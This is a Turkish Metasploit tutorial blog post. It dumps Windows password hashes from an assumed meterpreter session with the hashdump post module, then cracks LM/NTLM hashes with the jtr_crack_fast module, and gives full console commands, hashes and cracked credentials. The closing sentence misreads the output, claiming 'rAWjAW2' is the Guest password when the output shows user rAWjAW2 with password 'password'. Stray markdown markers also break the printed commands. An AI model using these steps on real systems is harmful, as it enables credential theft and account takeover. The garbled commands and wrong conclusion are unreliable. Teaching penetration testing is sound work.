 ```yaml
---
draft: false

title:  'MSF İçinde John The Ripper'
date: '2017-06-05T13:42:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'John The Ripper programı, karmaşık algoritmalı parolaları çözmek için kullanılan bir programdır. Bir takım kelime listelerini kullanarak hash olarak kaydedilmiş kodları çözmeye çalışır.' 
 
url:  /tr/msf-icinde-john-the-ripper/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## John the Ripper



John The Ripper programı, karmaşık algoritmalı parolaları çözmek için kullanılan bir programdır. Bir takım kelime listelerini kullanarak hash olarak kaydedilmiş kodları çözmeye çalışır.



Metasploit içerisinde de John The Ripper kullanabilirsiniz. Burada kullanılacak John the Ripper, basit algoritmalarla ilgilenir. Çok karmaşık ve ileri düzey hash kodları için Metasploit dışında çalışmanız gerektiğini belirtelim. Metasploit içindeki John the Ripper, sadece LM veya NTLM hash kodlarını çözmek için başlangıç düzeyinde işlem yapmanıza yarar. Bir örnekle görelim.



Öncelikle hedef bilgisayarda meterpreter oturum açtığımızı kabul ediyoruz. `session 1` olarak aktif halde olan oturum için `post/windows/gather/hashdump` modülünü aktif hale getirip hash bilgilerini alalım.


```bash
msf auxiliary**(**handler**)** > use post/windows/gather/hashdump
msf post**(**hashdump**)** > set session 1
session **=>** 1
 
msf post**(**hashdump**)** > run

> Obtaining the boot key...
> Calculating the hboot key using SYSKEY bffad2dcc991597aaa19f90e8bc4ee00...
> Obtaining the user list and keys...
> Decrypting user keys...
> Dumping password hashes...


Administrator:500:cb5f77772e5178b77b9fbd79429286db:b78fe104983b5c754a27c1784544fda7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:810185b1c0dd86dd756d138f54162df8:7b8f23708aec7107bfdf0925dbb2fed7:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:8be4bbf2ad7bd7cec4e1cdddcd4b052e:::
rAWjAW:1003:aad3b435b51404eeaad3b435b51404ee:117a2f6059824c686e7a16a137768a20:::
rAWjAW2:1004:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::


> Post module execution completed
```



Hash bilgilerini ekranda görebilirsiniz. Şimdi `auxiliary/analyze/jtr_crack_fast` modülünü kullanalım.


```bash
msf post**(**hashdump**)** > use auxiliary/analyze/jtr_crack_fast
msf auxiliary**(**jtr_crack_fast**)** > run

> Seeded the password database with 8 words...

guesses: 3  time: 0:00:00:04 DONE **(**Sat Jul 16 19:59:04 2011**)**  c/s: 12951K  trying: WIZ1900 - ZZZ1900
Warning: passwords printed above might be partial and not be all those cracked
Use the "--show" option to display all of the cracked passwords reliably
> Output: Loaded 7 password hashes with no different salts **(**LM DES **[**128/128 BS SSE2]**)**
> Output: D                **(**cred_6:2**)**
> Output: PASSWOR          **(**cred_6:1**)**
> Output: GG               **(**cred_1:2**)**
Warning: mixed-case charset, but the current hash type is **case**-insensitive;
some candidate passwords may be unnecessarily tried more than once.
guesses: 1  time: 0:00:00:05 DONE **(**Sat Jul 16 19:59:10 2011)  c/s: 44256K  trying: **||**V**}** - **||**|**}**
Warning: passwords printed above might be partial and not be all those cracked
Use the "--show" option to display all of the cracked passwords reliably
> Output: Loaded 7 password hashes with no different salts **(**LM DES **[**128/128 BS SSE2]**)**
> Output: Remaining 4 password hashes with no different salts
> Output: **(**cred_2**)**
guesses: 0  time: 0:00:00:00 DONE **(**Sat Jul 16 19:59:10 2011**)**  c/s: 6666K  trying: 89093 - 89092
> Output: Loaded 7 password hashes with no different salts **(**LM DES **[**128/128 BS SSE2]**)**
> Output: Remaining 3 password hashes with no different salts
guesses: 1  time: 0:00:00:11 DONE **(**Sat Jul 16 19:59:21 2011**)**  c/s: 29609K  trying: zwingli1900 - password1900
Use the "--show" option to display all of the cracked passwords reliably
> Output: Loaded 6 password hashes with no different salts **(**NT MD4 **[**128/128 SSE2 + 32/32]**)**
> Output: password         **(**cred_6**)**
guesses: 1  time: 0:00:00:05 DONE **(**Sat Jul 16 19:59:27 2011**)**  c/s: 64816K  trying: **||**|**}**
Use the "--show" option to display all of the cracked passwords reliably
> Output: Loaded 6 password hashes with no different salts **(**NT MD4 **[**128/128 SSE2 + 32/32]**)**
> Output: Remaining 5 password hashes with no different salts
> Output: **(**cred_2**)**
guesses: 0  time: 0:00:00:00 DONE **(**Sat Jul 16 19:59:27 2011**)**  c/s: 7407K  trying: 89030 - 89092
> Output: Loaded 6 password hashes with no different salts **(**NT MD4 **[**128/128 SSE2 + 32/32]**)**
> Output: Remaining 4 password hashes with no different salts

**[**+] Cracked: Guest: **(**192.168.184.134:445**)**
**[**+] Cracked: rAWjAW2:password **(**192.168.184.134:445**)**
> Auxiliary module execution completed
msf auxiliary**(**jtr_crack_fast**)** >
```



Görüldüğü gibi `192.168.184.134` IP adresinde `Guest` kullanıcısı için parola `rAWjAW2` olarak bulundu.
